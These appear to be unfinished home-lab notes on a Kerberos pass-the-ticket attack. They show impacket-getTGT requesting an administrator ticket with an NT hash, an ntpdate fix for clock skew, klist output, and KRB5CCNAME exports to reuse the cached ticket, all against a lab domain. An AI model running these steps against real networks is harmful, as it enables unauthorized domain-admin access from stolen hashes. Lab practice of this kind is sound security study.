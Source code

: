 

let suppose we have a cache ticket 

getTGT.py -hashes :NThash $DOMAIN/$USER@$TARGET

let uppose we got a ticket uing the below command


                                                                                                                                                
┌──(kali㉿kali)-[~/HTB-machine/Faraday/rootkit/Reptile]
└─$ impacket-getTGT -no-pass -hashes :f1c3f58541c936fd550482ec578f102e furious.local/'administrator'@192.168.129.140 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
                                                                                                                                                 
┌──(kali㉿kali)-[~/HTB-machine/Faraday/rootkit/Reptile]
└─$ sudo ntpdate 192.168.129.140                                         
sudo: unable to resolve host kali: Name or service not known
[sudo] password for kali: 
2025-05-03 04:30:40.701475 (-0400) -1227.391532 +/- 0.001696 192.168.129.140 s1 no-leap
CLOCK: time stepped by -1227.391532
                                  

                                  
└─$ impacket-getTGT -no-pass -hashes :f1c3f58541c936fd550482ec578f102e furious.local/'administrator'@192.168.129.140 


Now we check the time the ticket is valid

                                                                                                                                                 
┌──(kali㉿kali)-[~/Home-lab/Kerbrose/pass-the-ticket]
└─$ ls                        
administrator@192.168.129.140.ccache
                                                                                                                                                 
┌──(kali㉿kali)-[~/Home-lab/Kerbrose/pass-the-ticket]
└─$ klist -c administrator@192.168.129.140.ccache

Ticket cache: FILE:administrator@192.168.129.140.ccache
Default principal: administrator@FURIOUS.LOCAL

Valid starting       Expires              Service principal
05/03/2025 00:20:09  05/03/2025 10:20:09  krbtgt/FURIOUS.LOCAL@FURIOUS.LOCAL
        renew until 05/04/2025 00:20:07


sp it is valid for 1 day

Now we use KRB5CCNAME variable

export KRB5CCNAME=...	Tells tools to use a specific .ccache Kerberos ticket file


export KRB5CCNAME=administrator@192.168.129.140.ccache

or

export KRB5CCNAME=$PWD/administrator@192.168.129.140.ccache



# Not completed yet


## this also a pass the cache

